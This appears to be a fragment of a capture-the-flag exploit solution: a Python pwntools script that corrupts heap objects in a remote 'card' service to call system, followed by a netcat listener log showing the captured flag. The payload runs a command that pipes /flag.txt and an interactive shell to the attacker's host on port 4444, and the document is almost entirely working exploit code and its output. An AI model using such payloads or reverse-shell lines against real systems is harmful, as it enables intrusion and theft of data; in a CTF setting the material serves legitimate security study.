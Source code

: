 ```python
payload += p64(0) * 4
payload += p64(system)
payload += b"(cat /flag.txt; cat) | nc "+ my.encode() +b" 4444\x00"
r.send(payload)

id_1 = create()
sleep(1)
id_2 = create()

r = remote(target, 7979)
op = 1
r.send(p32(op))
r.send(p32(id_2))
r.send(p32(0x1337))

# execute gadget
sleep(1)
del_card(id_2, 0x1337)
sleep(1)
set_name(id_1, 0x1337, b"A"*56, 56)
set_name(id_1, 0x1337, p64(name_ptr) + p64(0), 56)

sleep(1)
r.send(p32(50))
```
```
ubuntu@ip-172-31-34-196:~$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on ec2-15-165-100-234.ap-northeast-2.compute.amazonaws.com 60050
HCAMP{$end-it-to-the-DEMON-$how-'em-your-profile-$wag}
```